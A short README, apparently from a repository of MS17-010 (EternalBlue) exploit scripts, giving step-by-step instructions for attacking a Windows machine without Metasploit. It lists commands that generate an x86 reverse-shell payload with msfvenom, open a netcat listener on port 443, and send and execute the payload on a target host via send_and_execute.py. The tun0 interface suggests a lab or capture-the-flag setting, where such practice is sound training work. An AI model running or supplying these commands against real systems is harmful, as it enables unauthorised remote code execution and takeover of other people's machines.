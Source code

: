 # Notes

If we want to attack a machine without metasploit, we can use these scripts.
This also has the upside of allowing us to target x86 systems.
The script is originally python2, which is the reason for the manual handling of mysmb.py.

do:

* `pipenv install impacket`
* generate payload with: `msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010-shell.exe`
* run `nc -nvlp 443`
* execute payload with `pipenv run python send_and_execute.py ${RHOST} ms17-010-shell.exe`
